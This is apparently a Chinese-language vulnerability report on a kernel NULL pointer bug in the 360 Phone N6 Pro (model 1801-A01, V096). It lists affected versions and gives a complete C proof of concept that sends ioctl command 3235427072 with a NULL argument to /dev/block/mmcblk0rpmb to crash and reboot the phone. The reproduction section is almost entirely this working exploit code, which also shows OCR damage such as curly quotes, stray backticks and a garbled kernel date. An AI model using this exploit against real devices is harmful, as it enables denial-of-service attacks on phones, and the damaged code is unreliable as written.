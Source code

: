 ```yaml
---
title: 360 Phone N6 Pro内核漏洞
id: zhfly3404
---
```


# 360 Phone N6 Pro内核漏洞

## 一、漏洞简介

360 Phone N6 Pro V096内核组件中的内核模块允许攻击者使用命令**3235427072**在设备/ dev / block / mmcblk0rpmb上通过ioctl的自变量注入精心设计的自变量，并导致内核崩溃。

## 二、漏洞影响

*   名称：360 Phone N6 Pro
*   型号：1801-A01
*   安卓版本：7.1.1
*   版本号：V096
*   内核版本：Linux localhost 4.4.21-perf＃1 SMP PREEMPT Wed Mar 28 28 15:24:20 UTC 2018 aarch64

## 三、复现过程

### poc

```
/*
* This is poc of 360 N6 Pro, 1801-A01
* Android Version: 7.1.1
* Version Number: V096
* Kernel Version: Linux localhost 4.4.21-perf #1 SMP PREEMPT Wed Mar 28 15:24:20 UTC 2018 aarch64
* A NULL pointer bug in the ioctl interface of device file /dev/block/mmcblk0rpmb causes the system crash via IOCTL 3235427072.
* This Poc should run with permission to do ioctl on /dev/block/mmcblk0rpmb.
*/
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/ioctl.h>

const static char *driver = “/dev/block/mmcblk0rpmb”;

static command = 3235427072; // 0xc0d8b300

int main(int argc, char **argv, char **env) {

int fd = 0;

fd = open(driver, O_RDWR);

if (fd < 0) {

printf(“Failed to open %s, with errno %dn”, driver, errno);

system(“echo 1 > /data/local/tmp/log”);

return -1;

} `printf(“Try ioctl device file ‘%s’, with command 0x%x and payload NULLn”, driver, command);

printf(“System will crash and reboot.n”);

if(ioctl(fd, command, NULL) < 0) {

printf(“Allocation of structs failed, %dn”, errno);

system(“echo 2 > /data/local/tmp/log”);

return -1;

}

close(fd);

return 0;

}` 
```